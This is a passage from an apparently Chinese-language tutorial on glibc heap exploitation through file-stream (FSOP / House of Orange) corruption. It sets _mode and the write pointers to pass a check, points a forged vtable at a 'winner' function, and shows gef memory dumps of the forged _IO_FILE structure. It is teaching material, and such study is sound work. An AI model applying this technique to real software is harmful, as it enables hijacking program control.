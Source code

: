 ```c

/* Extra data for wide character streams.  */
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;	/* Current read pointer */
  wchar_t *_IO_read_end;	/* End of get area. */
  wchar_t *_IO_read_base;	/* Start of putback+get area. */
  wchar_t *_IO_write_base;	/* Start of put area. */
  wchar_t *_IO_write_ptr;	/* Current put pointer. */
  wchar_t *_IO_write_end;	/* End of put area. */
  wchar_t *_IO_buf_base;	/* Start of reserve area. */
  wchar_t *_IO_buf_end;		/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  wchar_t *_IO_save_base;	/* Pointer to start of non-current get area. */
  wchar_t *_IO_backup_base;	/* Pointer to first valid character of
				   backup area */
  wchar_t *_IO_save_end;	/* Pointer to end of non-current get area. */

  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;

  wchar_t _shortbuf[1];

  const struct _IO_jump_t *_wide_vtable;
};
```
所以这里我们设置 `fp->_mode = 0`，`fp->_IO_write_base = (char *) 2` 和 `fp->_IO_write_ptr = (char *) 3`，从而绕过检查。

然后，就是修改 `_IO_jump_t`，将其指向 winner：
```
gef➤  x/30gx p1-0x10+0x400
0x602400:	0x0068732f6e69622f	0x0000000000000061  <-- old top
0x602410:	0x00007ffff7dd1b78	0x00007ffff7dd2510      <-- bk points to io_list_all-0x10
0x602420:	0x0000000000000002	0x0000000000000003      <-- _IO_write_base, _IO_write_ptr
0x602430:	0x0000000000000000	0x0000000000000000
0x602440:	0x0000000000000000	0x0000000000000000
0x602450:	0x0000000000000000	0x0000000000000000
0x602460:	0x0000000000000000	0x0000000000000000
0x602470:	0x0000000000000000	0x00000000004006d3      <-- winner
0x602480:	0x0000000000000000	0x0000000000000000
0x602490:	0x0000000000000000	0x0000000000000000
0x6024a0:	0x0000000000000000	0x0000000000000000
0x6024b0:	0x0000000000000000	0x0000000000000000
0x6024c0:	0x0000000000000000	0x0000000000000000
0x6024d0:	0x0000000000000000	0x0000000000602460      <-- vtable
0x6024e0:	0x0000000000000000	0x0000000000000000
gef➤  p *((struct _IO_FILE_plus *) 0x602400)
$1 = {
  file = {
    _flags = 0x6e69622f, 
    _IO_read_ptr = 0x61 <error: Cannot access memory at address 0x61>, 
    _IO_read_end = 0x7ffff7dd1b78 <main_arena+88> "\020@b", 
    _IO_read_base = 0x7ffff7dd2510 "", 
    _IO_write_base = 0x2 <error: Cannot access memory at address 0x2>, 
    _IO_write_ptr = 0x3 <error: Cannot access memory at address 0x3>, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
```